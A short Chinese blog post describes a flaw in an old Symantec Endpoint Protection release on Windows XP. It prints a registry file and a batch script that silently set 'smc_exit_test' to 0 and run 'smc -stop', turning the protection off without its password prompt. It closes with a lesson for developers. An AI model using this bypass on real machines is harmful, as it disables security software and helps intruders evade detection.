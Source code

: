 ```yaml
---
title: 旧版SEP在Windows XP下的漏洞
alias: 2016/07/31/the-bug-of-sep
dir: /
tags: [Windows]
categories: [运维]
date: 2016-07-31 14:35:44
---
```



低版本的 SEP(Symantec endpoint protection) 在 Windows XP 系统下存在一个漏洞（其他版本 windows 尚未验证），即修改注册表某一键的值后，即可在不输入密码的情况下关闭该软件的相关保护功能。

## 分析

首先创建一个 test.reg 文件，用于修改注册表，内容如下。<!--more-->

```
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC]
"smc_exit_test"=dword:00000000
```

可以看到我们只需要将位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Symantec\Symantec Endpoint Protection\SMC` 中的 `smc_exit_test` 项的值改为0，就可以禁用关闭保护时的检测。

然后创建一个 bat 文件，内容如下：

```
@echo off
regedit.exe/s C:\test.reg
cd  "C:\Program Files\Symantec\Symantec Endpoint Protection"
smc -stop
```

在这个脚本中，我们通过 regedit.exe/s 命令无提示地将刚才定义的 reg 文件内容导入注册表，随后切换到 SEP 的安装目录中，通过执行 SEP 自带的 `smc -stop` 来终止保护。

运行后可以发现并没有出现在直接运行 `smc -stop` 时会弹出的要求输入密码的对话框，SEP 却直接停止了保护。

## 后记

这是 SEP 几年前旧版本中的一个漏洞，在随后的新版本中早已得到修护。我们可以从这个漏洞中看到，在编程时需要考虑一些配置信息的隐藏和权限控制问题（尤其注意早期版本 windows 的注册表），防止通过简单地修改注册表或配置文件即可停止程序主体服务的情况发生。